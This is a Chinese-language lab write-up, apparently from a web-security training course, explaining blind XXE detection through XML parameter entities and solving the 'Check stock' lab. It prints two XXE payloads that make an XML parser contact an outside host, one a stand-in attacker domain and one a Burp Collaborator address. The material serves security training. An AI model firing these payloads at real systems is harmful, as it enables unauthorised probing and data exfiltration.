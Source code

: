 3）XML参数实体使用带外检测来测试盲XXE：

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

此XXE有效负载声明一个名为xxe然后使用DTD中的实体。这将导致向攻击者的域发出DNS查找和HTTP请求，从而验证攻击是否成功

### 题目

实验4：通过XML参数实体进行带外交互的盲XXE

```
Lab: Blind XXE with out-of-band interaction via XML parameter entities
PRACTITIONER

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
```

```
信息：

本实验有一个“Check stock”功能，该功能可以解析XML输入，但不会显示任何意外值，并阻止包含常规外部实体的请求

解决实验：使用一个参数实体使XML解析器向Burp Collaborator发出DNS查找和HTTP请求
```

### 解答

与上一题类似，完整 xml 如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2vy6w288ymns5ksn4sp3yn5bu20soh.burpcollaborator.net"> %xxe; ]><stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```

<img src=".\图片\Snipaste_2023-07-31_11-03-56.png" alt="Snipaste_2023-07-31_11-03-56" style="zoom:80%;" />